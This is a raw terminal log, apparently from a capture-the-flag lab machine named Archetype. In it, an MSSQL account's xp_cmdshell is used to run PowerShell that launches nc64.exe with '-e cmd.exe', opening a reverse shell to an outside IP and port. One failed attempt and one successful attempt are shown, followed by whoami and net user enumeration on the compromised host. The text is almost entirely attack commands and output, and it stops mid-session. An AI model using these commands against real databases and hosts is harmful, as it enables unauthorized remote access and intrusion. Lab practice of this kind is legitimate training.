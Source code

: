     Directory: C:\Users\sql_svc\Downloads                                          

NULL                                                                               

NULL                                                                               

Mode                LastWriteTime         Length Name                                                                     

----                -------------         ------ ----                                                                     

-a----        5/14/2022   9:14 AM              7 test2.txt                                                                

NULL                                                                               

NULL                                                                               

NULL                                                                               

SQL> 


------------
SQL> xp_cmdshell "powershell -c cd c:\users\sql_svc\Downloads\nc64.exe -e c:\windows\system32\cmd.exe 10.10.15.165 12345"
output                                                                             

--------------------------------------------------------------------------------   

Set-Location : Parameter cannot be processed because the parameter name 'e' is ambiguous. Possible matches include:    

-ErrorAction -ErrorVariable.                                                       

At line:1 char:40                                                                  

+ cd c:\users\sql_svc\Downloads\nc64.exe -e c:\windows\system32\cmd.exe ...        

+                                        ~~                                        

    + CategoryInfo          : InvalidArgument: (:) [Set-Location], ParameterBindingException   

    + FullyQualifiedErrorId : AmbiguousParameter,Microsoft.PowerShell.Commands.SetLocationCommand   

                                                                                   

NULL                                                                               

SQL> xp_cmdshell "powershell -c c:\users\sql_svc\Downloads\nc64.exe -e c:\windows\system32\cmd.exe 10.10.15.165 12345"



C:\Windows\system32>whoami
whoami
archetype\sql_svc

C:\Windows\system32>net user view
net user view
The user name could not be found.

More help is available by typing NET HELPMSG 2221.


C:\Windows\system32>net user
net user
